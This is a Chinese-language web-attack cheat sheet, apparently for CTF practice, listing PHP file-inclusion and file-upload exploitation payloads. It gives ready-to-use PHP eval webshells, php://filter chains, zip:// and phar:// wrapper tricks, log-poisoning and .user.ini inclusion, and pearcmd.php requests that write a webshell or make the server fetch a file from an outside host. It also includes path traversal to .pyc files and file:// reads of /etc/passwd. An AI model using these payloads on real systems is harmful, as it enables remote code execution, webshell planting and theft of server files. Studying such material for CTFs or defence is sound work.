 [实战 | 文件上传漏洞之最全代码检测绕过总结](https://mp.weixin.qq.com/s/6ArBgNYpsQH7WkaaJY6GfQ)

# LFI/文件包含

| Name                                                   | payload                                                                                                                                         |     |
| ------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------- | --- |
| `?file=index` 或 `?file=index.php` 有可能需要去掉 .php |                                                                                                                                                 |     |
| `?file=php://filter/convert.iconv.UTF-8.UTF-7/resource=flag.php` <br> `?file=php://filter/convert.iconv.UTF8.CSISO2022KR\|convert.iconv.ISO2022KR.UTF16\|convert.iconv.L6.UCS2/resource=flag.php`| UTF-8过滤器 , 可以上面两个联合用
| PHP_INCLUDE_TO_SHELL_CHAR_DICT                         | 文件包含即命令执行   [原理](https://goodapple.top/archives/968) |     |
| glob://                                                |                                                                                                                                                 |     |
| 上传 a.zip 改为 a.jpg                                  | zip://伪协议进行包含 一句话 a.php `<?php @eval($_POST['a'])?>` <br>url: `http://xxx//index.php?url=zip:///app/upload/pic.jpg%23basic.php` 密码为 a      |
| pearcmd.php 包含  | [#pearcmd](#pearcmd)
| 日志包含                                               | 1.抓包修改 Agent 访问 2.包含日志 /var/log/nginx/access.log                                                                                      |
| phpinfo中 `allow_url_include=On;allow_url_include=On`时 | 可 ?file=http://xxx.com/1.txt 远程包含
| 使用 [.user.ini](#userini) 进行包含                    | auto_append_file=2.jpg                                                                                                                          |
| Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7                   | [CVE-2013-4547](exp/Nginx%20%E6%96%87%E4%BB%B6%E5%90%8D%E9%80%BB%E8%BE%91%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2013-4547%EF%BC%89.md) requests_demo.py |

## .user.ini

相当于 `include('xx.txt')`

| Desc           | .user.ini                                    | payload                                                                                |
| -------------- | -------------------------------------------- | -------------------------------------------------------------------------------------- |
| 包含 post 数据 | `auto_append_file=php://input`               | url:`index.php` <br>body: `<?php phpinfo();?>`                                         |
| 日志包含       | `auto_append_file=/var/log/nginx/access.log` | url:`index.php` <br> body: `1=phpinfo();`<br>usUser-Agent: `<?php eval($_POST[1]);?> ` |

## pearcmd

1. 知道pearcmd.php文件的路径（默认路径是/usr/local/lib/php/pearcmd.php）, phpinfo中的 `include_path`
2. `register_argc_argv=On`
3. payload `要用burp发`

```sh
# 不出网
index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST['cmd']);?>+/tmp/test.php
a1.php?file=/usr/local/lib/php/pearcmd.php&+config-create+/'<?=phpinfo()?>'+./info1.php

# 出网
index.php?+install+--installroot+&file=/usr/local/lib/php/pearcmd.php&+http://xilitter.top/123.php
```

# Python

```sh
/download?file=../../../app/__pycache__/part.cpython-311.pyc
```

# 文件上传

- `$_GET['xxx']`, 都可以用 filter 这类读文件尝试
- %00 截断 php 版本小于 5.3.4
- 上传为zip为 pic.jpg, zip://读取 url: `http://xxx//index.php?url=zip:///app/upload/pic.jpg%23basic.php` ,需要将#编码为%23
- 上传为zip用phar去读
- 上传时和文件相关都可能是 phar 反序列化,如 `file_exists($filename)` 考虑 phar 反序列化 `phar://abc.phar.gif/test.txt`
  - 能进行攻击的不只有 file_get_contents，所有的文件函数都会导致这个问题
- 压缩包软链接，传到/tmp/data 下, ，这个软链接指向 flag，即可获取 flag

```sh
# 触发  phar 反序列化
fileatime / filectime / filemtime
stat / fileinode / fileowner / filegroup / fileperms
file / file_get_contents / readfile / fopen
file_exists / is_dir / is_executable / is_file / is_link / is_readable / is_writeable / is writable.
parse_ini_file
unlink
copy
```

# 文件读取

url=file://127.0.0.1/etc/passwd
url=file:///etc/passwd
